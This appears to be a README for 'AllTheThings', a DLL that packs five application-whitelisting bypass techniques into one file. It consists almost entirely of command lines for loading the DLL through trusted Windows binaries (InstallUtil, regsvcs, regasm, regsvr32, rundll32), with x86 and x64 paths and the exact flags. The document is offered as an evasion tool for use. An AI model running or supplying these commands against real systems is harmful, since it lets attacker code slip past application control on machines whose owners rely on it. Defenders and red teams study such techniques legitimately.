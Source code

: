 # AllTheThings

## Includes 5 Known Application Whitelisting Bypass Techniques in One File.

### 1. InstallUtil.exe

### 2. Regsvcs.exe

### 3. Regasm.exe

### 4. regsvr32.exe

### 5. rundll32.exe



# Usage:

## 1. 
    x86 - C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U AllTheThings.dll

    x64 - C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U AllTheThings.dll
    
## 2. 

    x86 C:\Windows\Microsoft.NET\Framework\v4.0.30319\regsvcs.exe AllTheThings.dll

    x64 C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regsvcs.exe AllTheThings.dll
## 3. 

    x86 C:\Windows\Microsoft.NET\Framework\v4.0.30319\regasm.exe /U AllTheThings.dll

    x64 C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regasm.exe /U AllTheThings.dll

## 4. 

    regsvr32 /s  /u AllTheThings.dll -->Calls DllUnregisterServer

    regsvr32 /s AllTheThings.dll --> Calls DllRegisterServer
    
## 5. 

    rundll32 AllTheThings.dll,EntryPoint
